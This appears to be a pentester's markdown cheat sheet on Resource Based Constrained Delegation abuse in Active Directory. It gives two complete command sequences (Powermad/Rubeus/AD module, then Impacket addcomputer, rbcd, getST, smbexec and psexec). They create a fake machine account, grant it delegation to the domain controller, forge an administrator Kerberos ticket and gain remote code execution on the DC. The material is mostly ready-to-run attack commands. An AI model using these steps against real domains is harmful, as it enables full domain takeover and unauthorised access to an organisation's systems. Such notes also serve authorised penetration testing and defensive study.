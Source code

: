 ## Resource Based Constrained Delegation (RBCD)

## TOOLS: Bloodhound, Powermad, Powerview, Kekeo, Impacket, AD powershell module

### Requirements: Your current user belongs to a group that has write access/generic all privileges on the DC.

### STEPS:

#### 1) Transfer rubeus and powermad on target machine

#### 2) Import Powermad

    Import-Module ./powermad.ps1 (Import powermad)

#### 3) Import ActiveDirectory Module

    Import-Module ActiveDirectory

#### 4) Set Variables

    Set-Variable -Name "PwnPC" -Value "PWN01"

#### 

    Set-Variable -Name "targetComputer" -Value "DC" 

#### 5) With Powermad, add the new fake computer object to AD

    New-MachineAccount -MachineAccount (Get-Variable -Name "PwnPC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose ( With powermad, add the new fake computer object to AD)

#### 6) With built-in AD modules, give the new fake computer object the Constrained Delegation privilege

    Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "PwnPC").Value + '$') 

#### 7) With built-in AD modules, check that the last command worked

    Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount 

#### 8) With Rubeus, generate the new fake computer object password hashes.

    .\rubeus.exe hash /password:123456 /user:PWN01$ /domain:DOMAIN.LOCAL 

#### 9) Using the getST impacket module, generate a ccached TGT and used KRB5CCNAME pass the ccache file for the requested service

    Impacket-getST DOMAIN.LOCAL/PWN01 -dc-ip DC.DOMAIN.LOCAL -impersonate administrator -spn http://DC.DOMAIN.LOCAL -aesKey GENERATED_AESKEY 

#### 10) Set local variable of KRB5CCNAME to pass the ccache TGT file for the requested service

    export KRB5CCNAME=administrator.ccache 

#### 11) Use smbexec impacket module to connect with the TGT we just made to the server as the user administrator over SMB

    impacket-smbexec DOMAIN.LOCAL/administrator@DC.DOMAIN.LOCAL -no-pass -k 

#### 12) PWNED!

# RBCD Impacket

#### 1) Abuse MachineAccountQuota (if MachineAccountQuota > 0) to create a computer account

    impacket-addcomputer domain.local/USER1:Password@1 -computer-name fakepc -computerpass Password@123 -dc-ip DC_IP

#### 2) Rewrite DC's AllowedToActOnBehalfOfOtherIdentity properties

    impacket-rbcd domain.local/USER1:Password@1 -action write -delegate-to 'DC$' -delegate-from 'fakepc$' -dc-ip DC_IP

#### 3) Generate a Service Ticket for CIFS 

The fake machine account requests a Kerberos Service Ticket for a privileged user (e.g., Administrator) using Service for User to Self (S4U2Self). Then, it escalates the ticket using Service for User to Proxy (S4U2Proxy) to obtain access to DC$.

Once you modify the delegation attribute, you can use the Impacket getST script to obtain a Service Ticket (ST) for impersonation. For instance, you may impersonate the Administrator or any other user within the domain.

    impacket-getST domain.local/'fakepc$':Password@123 -spn cifs/DC.domain.local -impersonate administrator -dc-ip DC_IP

#### 4) Obtain Privileged Access

After you obtain the Kerberos 􀆟ticket, you can use it with pass-the-ticket techniques.

To use the ticket, first export an environment variable that points to the created ticket.

    export KRB5CCNAME=administrator@cifs_DC.domain.local@DOMAIN.LOCAL.ccache

Use impacket’s psexec for the remote code execution using the pass-the-ticket method.

    impacket-psexec domain.local/administrator@DC.domain.local -k -no-pass -dc-ip DC_IP
